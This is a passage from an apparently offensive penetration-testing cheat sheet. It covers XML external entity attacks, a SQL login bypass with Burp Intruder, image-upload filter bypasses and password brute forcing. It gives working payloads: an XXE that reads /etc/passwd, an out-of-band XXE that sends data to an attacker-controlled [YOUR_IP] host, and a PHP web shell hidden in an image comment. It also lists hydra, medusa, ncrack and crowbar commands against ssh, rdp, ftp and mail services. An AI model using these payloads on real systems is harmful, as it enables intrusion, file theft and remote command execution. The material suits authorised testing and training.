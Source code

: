 ```

XML entry that reads server, Doctype, change to entity "System "file:///etc/passwd""

Instead POST:

<?xml version="1.0" ?>
    <!DOCTYPE thp [
        <!ELEMENT thp ANY>
        <!ENTITY book "Universe">
    ]>
    <thp>Hack The &book;</thp>
    
Malicious XML:

<?xml version="1.0" ?><!DOCTYPE thp [ <!ELEMENT thp ANY>
<!ENTITY book SYSTEM "file:///etc/passwd">]><thp>Hack The
%26book%3B</thp>

XXE OOB

<?xml version="1.0"?><!DOCTYPE thp [<!ELEMENT thp ANY >
<!ENTITY % dtd SYSTEM "http://[YOUR_IP]/payload.dtd"> %dtd;]>
<thp><error>%26send%3B</error></thp>
```

### Sql-login-bypass

- Open Burp-suite
- Make and intercept a request
- Send to intruder
- Cluster attack.
- Paste in sqlibypass-list (https://bobloblaw.gitbooks.io/security/content/sql-injections.html)
- Attack
- Check for response length variation

### Bypass image upload restrictions

```
- Change extension: .pHp3 or pHp3.jpg
- Modify mimetype: Content-type: image/jpeg
- Bypass getimagesize(): exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' file.jpg
- Add gif header: GIF89a;
- All at the same time.
```

## Password brute force - last resort

Offline local resources

```
cewl
hash-identifier
john --rules --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
medusa -h 10.11.1.111 -u admin -P password-file.txt -M http -m DIR:/admin -T 10
ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.111
crowbar -b rdp -s 10.11.1.111/32 -u victim -C /root/words.txt -n 1
hydra -l root -P password-file.txt 10.11.1.111 ssh
hydra -P password-file.txt -v 10.11.1.111 snmp
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 ftp -V
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.11.1.111 pop3 -V
hydra -P /usr/share/wordlistsnmap.lst 10.11.1.111 smtp -V

# SIMPLE LOGIN GET
```